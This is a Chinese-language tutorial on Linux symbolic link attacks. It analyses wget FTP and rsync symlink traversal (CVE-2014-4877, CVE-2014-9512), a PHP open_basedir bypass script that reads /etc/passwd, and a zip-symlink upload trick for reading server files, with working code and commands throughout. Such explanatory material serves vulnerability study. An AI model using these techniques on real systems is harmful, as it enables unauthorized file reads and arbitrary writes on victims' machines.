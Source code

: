 # linux symbolic link attack tutorial

0×00 前言
=======

* * *

Linux作为应用最广泛的开源系统，其中独特的文件系统可以算是支撑Linux强大功能 的核心组件之一，而在文件系统中，符号链接(symbolic link )形如"月光宝盒"般可以穿 梭时空，自由穿越森严的路径限制，此一特性，使其地位在整个Linux系统中占有重要 一席，本文将通过实际分析与研究，深入探讨因对符号链接处理不当，可能造成的各类 安全问题，以引发对此类问题的重视。

0×01 客户端
========

* * *

客户端递归处理文件时,通过符号链接穿越可造成任意文件写入,代码执行。

案例:

1. Wget ftp symbolic link attack (CVE-2014-4877)
------------------------------------------------

* * *

wget 递归下载ftp站点时,如 wget -m ftp://127.0.0.1,在服务端伪造如下数据

```
lrwxrwxrwx 1 root root 33 Oct 11 2013 fakedir -> /tmp
drwxrwxr-x 15 root root 4096 Oct 11 2013 fakedir

```

会在本地建立一个名称为fakedir的symbolic link ,指向/tmp 目录,当wget 发送 cwd 指令递归进入fakedir 在发送 LIST 指令。此时可以伪造一个恶意文件或者

目录比如:

```
-rwx------ 1 root root 21 Aug 29 2013 pwned

```

RETR 指令下载pwned 文件时,返回文件内容(二进制或者文本)。即可欺骗wget 客户端任意目录写入。

具体利用脚本: https://github.com/yaseng/pentest/blob/master/exploit/wget-symlink_attack_exploit.py

漏洞演示:

```
Server(attacker)  wget-symlink_attack_exploit.py
Client(victim)    wget -m ftp://127.0.0.1

```

![enter image description here](http://drops.javaweb.org/uploads/images/133b64e743f5057307d3cd8457a33c679acf11b3.jpg)

2:Rsync path spoofing attack vulnerability(CVE-2014-9512 )
----------------------------------------------------------

* * *

笔者分析wget漏洞之后,发现rsync递归同步文件时,同样可以用符号链接来 欺骗路径,由于rsync双向文件处理算法比较复杂,无法直接用字符串伪造文件流。 首先rsync共享文件夹新建symbolic link 指向/root/,

```
[root@pentest rsync]# ls  -lh
total 8.0K
-rw-r--r-- 1 root root    2 Oct 31 03:16 1.txt
lrwxrwxrwx 1 root root    6 Oct 31 05:09 fakedir -> /root/
drwxr-xr-x 2 root root 4.0K Oct 31 05:08 truedir

```

truedir 中写入测试文件

```
[root@pentest rsync]# cd  truedir/
[root@pentest truedir]# ls
[root@pentest truedir]# echo rsync  test  >  pwned
[root@pentest truedir]# ls -lh
total 4.0K
-rw-r--r-- 1 root root 11 Oct 31 05:17 pwned
[root@pentest truedir]# 

```

再修改服务端发送文件列表的代码

```
file: rsync-3.1.1/flist.c    line:394
static void send_file_entry(int f, const char *fname, struct file_struct *file,
#ifdef SUPPORT_LINKS
                const char *symlink_name, int symlink_len,
#endif
                int ndx, int first_ndx)
{
  if(strcmp(fname,"turedir/pwned") == 0){

    fname="fakedir/pwned";  // symbolic link 
//change  file  true path(truedir) to  symbolic link  (fakedir)
)
}

```

由于服务端有严格的数据校验,此时会报错 "received request to transfer non-regular file fakedir/pwned.test 7 [sender]",导致客户端同步无法执行 但是对于攻击者来说,服务端是可控的,找到对应代码直接注释。

```
/* if (iflags & ITEM_TRANSFER) {
        int i = ndx - cur_flist->ndx_start;
        if (i < 0 || !S_ISREG(cur_flist->files[i]->mode)) {
            rprintf(FERROR,
                "received request to transfer non-regular file: %d [%s]\n",
                ndx, who_am_i());
            exit_cleanup(RERR_PROTOCOL);
        }
    }
*/

```

漏洞演示:

![enter image description here](http://drops.javaweb.org/uploads/images/842b745f1c8666ba3cd7cf9f772a34efa4c895e8.jpg)

client(victim):

![enter image description here](http://drops.javaweb.org/uploads/images/124331bfde1d14e5ddecbb180f7ea8d347b54399.jpg)

0×02 web 程序
===========

* * *

当通过http访问文件时,web server 对符号链接处理不当可能导致越权访问,文件 读取等安全隐患。

案例:

1. php 通用绕过 open_basedir 读取任意文件
-------------------------------

* * *

使用函数symlink 与 mkdir 创建一个指向目标的符号链接,代码如下

```
<?php
mkdir("abc");
chdir("abc");
mkdir("etc");
chdir("etc");
mkdir("passwd");
chdir("..");
mkdir("abc");
chdir("abc");
mkdir("abc");
chdir("abc");
mkdir("abc");
chdir("abc");
chdir("..");
chdir("..");
chdir("..");
chdir("..");
symlink("abc/abc/abc/abc","tmplink");
symlink("tmplink/../../../etc/passwd", "exploit");
unlink("tmplink");  //删除
mkdir("tmplink");
?>

```

生成文件

```
drwxr-xr-x 4 www www 512 Oct 20 00:37 abc
lrwxr-xr-x 1 www www 27 Oct 20 00:37 exploit -> tmplink/../../../etc/passwd
- -rw-r--r-- 1 www www 356 Oct 20 00:32 kakao.php
- -rw-r--r-- 1 www www 45 Oct 20 00:26 sym.php
drwxr-xr-x 2 www www 512 Oct 20 00:37 tmplink

```

exploit 已经指向/etc/passwd,通过web server 如Apache 直接静态访问,可以绕过php open_basedir 保护读取文件。

2. facebook 本地文件读取
------------------

* * *

当服务端会自动解压zip,tar 等支持符号链接的压缩格式时。可以通过符号链接读取服务器文件 例如facebook 本地文件读取

```
1. 创建一个符号链接文件指向/etc/passwd 

ln -s /etc/passwd link 

2. 压缩文件，同时保留链接 
zip --symlinks test.zip link 

3. 上传test.zip文件，系统会自动解压缩 

4. 页面当中会返回/etc/passwd的内容

```

如图

![enter image description here](http://drops.javaweb.org/uploads/images/13543f8e9b6b0fb5d794287b3d4e6d0ab5996fe4.jpg)

0×03 参考链接
=========

* * *

1:CVE-2014-4877 wget ftp下载文件夹链接欺骗漏洞分析 http://xteam.baidu.com/?p=30

2:Rsync path spoofing attack vulnerability http://xteam.baidu.com/?p=169

3:Php open_basedir bypass http://cxsecurity.com/issue/WLB-2009110068

4:Reading local files from Facebook's server http://josipfranjkovic.blogspot.com/2014/12/reading-local-files-from-facebooks.html